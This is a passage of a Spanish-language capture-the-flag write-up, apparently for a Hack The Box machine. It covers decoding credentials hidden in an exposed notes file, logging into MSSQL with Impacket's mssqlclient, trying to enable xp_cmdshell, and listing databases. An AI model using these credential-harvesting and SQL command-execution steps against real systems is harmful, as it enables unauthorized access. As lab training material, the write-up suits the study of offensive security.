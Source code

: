 Un archivo web.config que no existe (devuelve un 404) y un archivo con la siguiente información.

```bash
❯ curl -s http://htb.local:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzMNzMwNzI2NDIx.txt.txt | html2text
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location. 
4. Launch browser and navigate to http://localhost:8080 
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user. 

Credentials stored in secure format
OrchardCMS admin creadentials
010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

La contraseña en binario es la siguiente -> @dm!n_P@ssW0rd!
Ademas el nombre del archivo tiene una cadena encodeada en b64 y en hexadecimal. Mostrando la siguiente contraseña -> "m$\$ql\_S@\_P@ssW0rd!"

### Explotación

El MSSQL está abierto.  Podemos intentar autenticarnos.

```bash
❯ mssqlclient.py 'HTB/admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 
```

Podemos probar si tenemos permisos para activar el xp_cmdshell y ejecutar comandos a nivel de sistema.

```SQL
SQL> sp_configure 'show advanced options', '1'
[-] ERROR(MANTIS\SQLEXPRESS): Line 105: User does not have permission to perform this action.
```

No tenemos permisos... Voy a enumerar la base de datos.

```SQL
SQL> SELECT name FROM master.sys.databases
name                                                                                                                               
--------------------------------------------------------------------------------------------------------------------------------   
master                                                                                                                             
tempdb                                                                                                                             
model                                                                                                                              
msdb                                                                                                                               
orcharddb       
```
